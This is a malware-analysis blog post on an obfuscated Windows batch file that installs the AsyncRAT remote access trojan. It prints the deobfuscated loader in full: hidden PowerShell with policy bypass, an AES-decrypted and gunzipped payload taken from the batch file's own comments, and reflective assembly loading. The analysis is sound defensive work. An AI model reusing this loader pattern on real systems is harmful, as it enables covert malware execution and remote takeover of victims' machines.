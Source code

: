 ```yaml
---
title: From BAT to AsyncRAT
author: misthi0s
categories: ["malware"]
tags: [malware, .net, bat, powershell, AsyncRAT]
date: 2023-01-29 18:54:00
---
```


While perusing public samples from the Triage database, I stumbled across an interesting payload that was labelled as AsyncRAT. AsyncRAT is an open-source Remote Access Tool (or Trojan may be more apt) written in C#, so I was curious as to what the infection process would look like starting as a Windows Batch file. For anyone who wants to follow along, the sample on Triage can be found [here](https://tria.ge/230131-vwe3wahc28/behavioral2).

## Initial Payload

Upon first investigation, the batch file appears to be heavily obfuscated, but upon closer inspection, the behavior exhibited isn't too difficult to interpret. The file starts off with a `set "gXtM=set "`, which effectively creates an environment variable called `gXtM` with a value of `set `. The following lines use this gXtM variable in %, denoting to the Windows commandline interpreter to use the environment variable named gXtM. These commands set more environment variables. At the end of the batch file, all of these environment variables are then combined together to create the payload.

To decipher these concatenated environment variables, I used the [batch_deobfuscator](https://github.com/DissectMalware/batch_deobfuscator) script from DissectMalware on GitHub. Running the script against the batch file produces the following deobufscated code.

```batch
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "script.bat.exe
cls
cd "~dp0"
"~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $yruxp = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('script.bat').Split([Environment]::NewLine) foreach ($AoHcJ in $yruxp) { if ($AoHcJ.StartsWith(':: ')) {  $jSeTT = $AoHcJ.Substring(3)  break  }  } $iPrdF = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($jSeTT) $pstaK = New-Object System.Security.Cryptography.AesManaged $pstaK.Mode = [System.Security.Cryptography.CipherMode]::CBC $pstaK.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7 $pstaK.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('oK9Sb6xmpGv+i/gAJDgfaubHDtLnuOUbT8h3z0NIMvs=') $pstaK.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('CUeA3Qkm0ivKUIPg7zp+ug==') $FYwLw = $pstaK.CreateDecryptor() $iPrdF = $FYwLw.TransformFinalBlock($iPrdF  0  $iPrdF.Length) $FYwLw.Dispose() $pstaK.Dispose() $XhabZ = New-Object System.IO.MemoryStream(  $iPrdF) $lkvIz = New-Object System.IO.MemoryStream $oenGH = New-Object System.IO.Compression.GZipStream($XhabZ  [IO.Compression.CompressionMode]::Decompress) $oenGH.CopyTo($lkvIz) $oenGH.Dispose() $XhabZ.Dispose() $lkvIz.Dispose() $iPrdF = $lkvIz.ToArray() $QQBse = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($iPrdF) $qnZNg = $QQBse.EntryPoint $qnZNg.Invoke($null  (  [string[]] ('')))
exit /b
```

**NOTE:** The batch_deobfuscator script seems to use `script.bat` as the name of the input file, so if this script is run against the payload, all filename-based variables will be `script.bat` instead of the actual name of the file.
